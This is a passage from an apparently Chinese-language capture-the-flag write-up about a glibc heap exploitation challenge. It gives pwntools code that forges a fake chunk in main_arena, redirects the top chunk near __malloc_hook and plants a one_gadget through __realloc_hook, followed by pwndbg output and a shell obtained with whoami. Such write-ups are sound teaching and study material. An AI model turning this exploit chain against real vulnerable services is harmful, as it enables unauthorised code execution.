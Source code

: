 ```python 
add(0x40,1,'jcxp')
add(0x40,4,'jcxp')

```
此时`main_arena`中的`fake chunk`如下

```
pwndbg> bins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x51
0x50: 0x7ffff7dd1b60 (main_arena+64) ◂— 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x40: 0x5555557571a0 —▸ 0x7ffff7dd1ba8 (main_arena+136) ◂— 0x5555557571a0
largebins
empty
pwndbg> x /10gx 0x7ffff7dd1b60
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000051
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x000055555575720a
0x7ffff7dd1b80 <main_arena+96>:	0x00005555557571a0	0x00007ffff7dd1b78
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd1b78	0x00007ffff7dd1b88
0x7ffff7dd1ba0 <main_arena+128>:	0x00007ffff7dd1b88	0x00007ffff7dd1b98
pwndbg> 
```

由于`main_arena+88`存放的使`topchunk`的值,我们可以通过`fake chunk`覆盖`topchunk`为`__malloc_hook-0x18`的地址.  
在测试时发现直接覆盖为`__malloc_hook-0x18`的地址 然后修改为`one_gadget`,并不能利用成功.  
这里修改`__realloc_hook`为`one_gadget`,此时`malloc_hook`为`realloc+0x14`地址处，通过`malloc`函数来触发`one_gadget`.代码如下:

```python 
add(0x40,1,p64(0)+p64(libc_base+libc.symbols['__realloc_hook']-0x18-0x8))
realloc = libc_base + libc.symbols['__libc_realloc']
one = 0xf02a4 + libc_base
add(0x40,0,p64(0)*2 + p64(one) + p64(realloc+0x14))
p.sendlineafter("oice >> \n",str(1))
p.sendlineafter('Size : ',str(10))
p.sendlineafter('index: ',str(0))
p.interactive()
```

- 成功`getshell`

```shell
[*] Switching to interactive mode
$ whoami
[DEBUG] Sent 0x7 bytes:
    'whoami\n'
[DEBUG] Received 0x5 bytes:
    'jcxp\n'
jcxp

```

